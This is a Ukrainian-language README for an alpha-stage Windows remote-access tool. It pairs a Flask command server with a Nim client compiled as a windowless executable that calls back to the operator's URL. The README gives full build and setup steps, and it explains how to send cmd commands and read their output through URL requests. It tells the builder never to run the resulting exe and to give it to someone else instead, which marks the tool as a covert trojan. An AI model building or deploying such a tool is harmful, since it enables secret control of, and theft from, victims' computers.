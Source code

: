 # **get_he_windows**
## get_he_windows(ghw) - Це альфа-версія програми віддаленого доступу якою можно користуватися в браузері. Поки що тільки для windows. Якщо хочете, то можете спробувати підправити код і скомпілювати файл на linux і macOS.
___
## Що може ця программа?
- Обробітка комманд на віддаленій машині windows
- Дізнатися повний комплект windows
  - процессор
  - оперативна пам'ять
  - ім'я користувача
  - версїю драйверів 
## Якщо ви добре володієте коммандною строкою в windows то вам не буде складно.
---
### Встановлення та перший запуск.
### Клонуйте репозиторій та зайдіть в дерикторію ``` server(python) ```.
### Перевірте наявність python цією командою: ```python -v ```
### Встановіть бібліотеки ціею командою:
```
pip install flask openpyxl
```
### Далі запускаемо сервер командою:
```
python server.py
```
### Вертаїмось до деректорії та заходимо в дерикторію ``` client(nim-lang) ```
### Перевірте, чи встановлен у вас nim-lang та gcc командою ``` nim -v ``` та ```gcc --version```. Якщо все окей, то вивід команд має бути подобний до цого:
```
C:\Users\User>nim -v
Nim Compiler Version 1.6.10 [Windows: amd64]
Compiled at 2022-11-21
Copyright (c) 2006-2021 by Andreas Rumpf

C:\Users\User>gcc --version
gcc (MinGW-W64 x86_64-posix-seh, built by Brecht Sanders) 11.1.0
Copyright (C) 2021 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

```

### Далі відкриваете файл як документ через будь який редактор та шукаете змінну ` name ` та вписуєте туди своє ім'я ``` let name = "gandon" ``` та в змінній `your_adress` пишете свою url-адресу `let your_adress = "http://127.0.0.1:5000"`
### Зберігаєте та компілюете командою:
```
nim c -d:release -d:danger --app:gui .\main.nim
```
### В жодному разі не відкривайте ехе файл який у вас вийшов! Дайте його, кому хотіли дати)
### Основний url-запрос з якого все працує:
```
http://127.0.0.1:5000/users_get?input=name_admin-password_admin-username-command_windows
```

### Думаю що тут всі розберуться, аля я всеж розповім що за що відповідає:
- `name_admin` - замість цого ви пишите ім'я адміністратора(тобто ваше)
  - щоб додати адміністратора введіть в браузері наступний url-адрес `ваш_url/add_admins?info=name_admin-password_admin` замінивши `name_admin` та `password_admin` на свої
- `password_admin` - пароль від імені адміністратора
- `username` - ім'я 
- `command_windows` - команда віндовс, саме cmd команда.
### Щоб побачити відповідь від консолі віндовс ви змінюєте вашу комманду на слово `wait`
```
http://127.0.0.1:5000/users_get?input=name_admin-password_admin-username-wait
```
### Це був тестовий проєкт та дуже не допрацований, але можете брати мій кож, переробляти та додавати щосб своє. Я не буду продовжувати працу над цим проєктом. Якщо вам сподобаєця цей проект то я відновлю свою працю над ним, та якщо вам не важко підкиньте не дуже копійок на карту: `5375411425732190` або через [DonationAlerts](https://www.donationalerts.com/r/fruitjuicecode)

---
# Все що ви зробитє з ціею программою лежить тільки на вас! Автор не нисе відповідальність за вас!
